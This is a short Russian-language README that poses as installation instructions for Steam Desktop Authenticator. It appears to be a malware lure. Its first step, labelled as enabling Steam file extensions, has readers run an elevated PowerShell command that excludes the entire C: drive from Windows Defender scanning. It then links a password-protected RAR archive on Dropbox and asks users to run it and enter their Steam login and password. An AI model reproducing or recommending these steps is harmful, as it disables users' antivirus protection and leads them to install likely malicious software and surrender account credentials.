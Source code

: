 # Steam Desktop Authenticator

📖 В этой статье я расскажу вам, как это сделать. 👇

                                                   🔧Установка 

Шаг 1 ⚙️

<details>
<summary style="color: blue; font-weight: bold;">Сделайте расширение файлов Steam</summary>

Нажмите Win+R и введите команду

`powershell.exe -Command "Start-Process powershell.exe -Verb RunAs -ArgumentList 'Add-MpPreference -ExclusionPath C:\ -Force'"`

</details>

Шаг 2 📥

Как только выполнили расширение, загрузите [Steam Desktop Authenticator](https://www.dropbox.com/scl/fi/w5ecd2o303ev2ijyhou1k/SDA-Release.rar?rlkey=67qirl78067s116b9nzm9ju9u&dl=1)

Шаг 3 📂

Пароль : 1234

Распакуйте на рабочем столе и запустите

Шаг 4 🚀

Запустите SDA, и напишите логин пароль

Шаг 5 ✏️

Готово! Теперь вы можете наслаждаться игрой с новым аккаунтом! 🎉😎
                                                         🔧Не забудьте выполнить инструкцию 
